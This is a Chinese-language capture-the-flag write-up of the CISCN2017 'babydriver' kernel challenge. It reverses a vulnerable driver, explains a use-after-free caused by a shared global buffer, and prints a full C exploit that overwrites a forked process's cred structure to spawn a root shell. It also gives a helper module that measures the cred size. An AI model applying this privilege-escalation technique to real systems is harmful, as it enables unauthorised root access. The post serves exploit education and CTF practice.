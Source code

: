 ```yaml
---
layout: post
title:  "kernel题目1-CISCN2017-babydriver"
date:   2019-09-24 13:54:00
categories: pwn
tags: kernel
excerpt: CISCN2017-babydriver
mathjax: true
---
```


* content
{:toc}

### 0x00 逆向分析

#### 1. 解压镜像

压缩包中包含如下
`boot.sh  bzImage  rootfs.cpio`

```
qemu-system-x86_64 -initrd rootfs.cpio -kernel bzImage -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -monitor /dev/null -m 64M --nographic  -smp     cores=1,threads=1 -cpu kvm64,+smep
```

把 -enable-kvm 去掉之后正常启动起来了

解压rootfs.cpio

```
mkdir core
cd core
mv ../rootfs.cpio rootfs.cpio.gz
gunzip ./rootfs.cpio.gz
cpio -idmv < rootfs.cpio

```

init 脚本中发现
`insmod /lib/modules/4.4.72/babydriver.ko`

#### 2. 逆向驱动文件

1. 功能分析


* babyioctl 函数 : babyioctl(fd,command,arg) 判断command ==65537 时执行如下为device_buf 重新分配内存, kmalloc的size由arg控制

```
        kfree(babydev_struct.device_buf);
        babydev_struct.device_buf = (char *)_kmalloc(v4, 37748928LL);
        babydev_struct.device_buf_len = v4;
```

* babyrelease: 释放device_buf
* babyopen: 填充device_buf  size=64 
* babywrite: copy_from_user(babydev_struct.device_buf, buffer, v4);
* babyread: copy_to_user(buffer, babydev_struct.device_buf, v4);


2. 漏洞分析
babydev_struct是全局的，多次打开设备时，会覆盖babydev_struct。同理一个设备 free babydev_struct 过后，此时另一个设备依然可以向此处写入数据。因此造成UAF漏洞。

利用思路：
* fd1中申请堆块为0x8a,和cred结构一样大（查看源码得），也可以编译一个模块得到
* 释放fd1，此时调用fork，新进程请求空间存放cred，正好得到了之前释放的空间，但UAF漏洞导致此时fd2依然可以往这段空间写值
* 使用fd2 写入足够多的0 将uid，gid都设置为0即可


编写exp如下
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

void main(){
    int fd1 = open("/dev/babydev",2);
    int fd2 = open("/dev/babydev",2);

    ioctl(fd1,0x10001,0x8a);
    close(fd1);
    int pid = fork();
    if(pid<0){
        printf("fork error");
        exit(0);
    }
    else if(pid==0){
        char zeros[30] = {0};
        write(fd2,zeros,28);
        if(getuid() ==0){
            puts("[+] get root");
            system("/bin/sh");
            exit(0);
        }
    }
    else
    {
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```
编译程序
`gcc exp.c -o exp -static`
重打包为文件镜像
`find . | cpio -o --format=newc > ../rootfs.img`

调试查看
fd1申请0x8a之后
q
write前后对比

运行结果如下


编译模块获取cred结构大小
还有一个问题是如何知道cred的大小，一种方法是看源码，这种方法比较慢，还容易出错。另一种方法是编译一个内核模块来查看：

```
#include <linux/init.h>
#include <linux/module.h>
#include <linux/cred.h>

MODULE_LICENSE("Dual BSD/GPL");

static int hello_init(void)
{
    printk(KERN_ALERT "sizeof cred: %d", sizeof(struct cred));
    return 0;
}

static void hello_exit(void)
{
    printk(KERN_ALERT "exit module!");
}

module_init(hello_init);
module_exit(hello_exit);
```

Makefile：

```
obj-m := cred_size.o
KERNELBUILD := /lib/modules/$(shell uname -r)/build

modules:
    make -C $(KERNELBUILD) M=$(CURDIR) modules
clean:
    make -C $(KERNELBUILD) M=$(CURDIR) clean
```



方法2：使用tty 结构


### 参考链接

http://pwn4.fun/2017/08/15/Linux-Kernel-UAF/
